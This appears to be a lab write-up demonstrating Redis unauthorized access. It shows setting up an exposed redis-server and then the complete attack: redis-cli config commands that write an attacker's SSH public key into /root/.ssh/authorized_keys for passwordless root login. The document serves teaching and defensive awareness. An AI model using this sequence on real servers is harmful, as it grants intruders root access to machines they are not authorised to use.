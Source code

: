 # Redis Unauthorized Access

## Introduction

[Redis](https://redis.io/docs/about/) is a data structure server. At its core, Redis provides a collection of native data types that help you solve a wide variety of problems, from caching to queuing to event processing. 

Redis is designed to be accessed by trusted clients inside trusted environments. This means that usually it is not a good idea to expose the Redis instance directly to the internet or, in general, to an environment where untrusted clients can directly access the Redis TCP port or UNIX socket.

Unfortunately, many users fail to protect Redis instances from being accessed from external networks.

When a hacker accesses Redis without password protection running as root, hacker's ssh public key can be written into the target server `/root/.ssh/authotrized_keys` file, and then the target server can be directly logged in through hacker's Private key.

![](redis.svg)

## Server Deployment

1. Watch `/root/.ssh/authorized_keys` file
    ```
    watch -n 1 cat /root/.ssh/authorized_keys
    ```

2. Get server ip
    ```
    ifconfig | grep inet
    ```

3. Install redis-server
   ```
   apt-get install redis-server
   ```

4. Start redis-server
    ```
    # check ip
    ifconfig | grep inet

    # start redis-server
    redis-server --port 7777 --protected-mode no
    ```

## Hacker Attack

1. Generate ssh key and certificate

    hacker generate key to `/root/.ssh/id_rsa` and generate certificate to `/root/.ssh/id_rsa.pub`.

    ```
    ssh-keygen -t rsa
    cat /root/.ssh/id_rsa
    cat /root/.ssh/id_rsa.pub
    ```

2. Test remote ssh

    After checking, it is found that ssh login to the remote server requests a password, but hacker does not have a corresponding password.
    ```
    ssh root@${remote_server}
    ```

3. Start attack

    Use `redis-cli` to connect with `redis-server`:

    ```
    redis-cli -p 7777 -h ${remote_server}
    ```

    Write local `/root/.ssh/id_rsa.pub` to remote `/root/.ssh/authorized_keys`

    ```
    config set dir /root/.ssh
    config set dbfilename authorized_keys
    set xxxx "\n\nssh-rsa key_pub\n\n"
    get xxxx
    save
    exit
    ```

    The `ssh-rsa key_pub` is string of file `/root/.ssh/id_rsa.pub`.

4. Test remote ssh

    After checking, it is found that ssh does not require a password when logging into the remote server.
    ```
    ssh root@${remote_server}
    ```
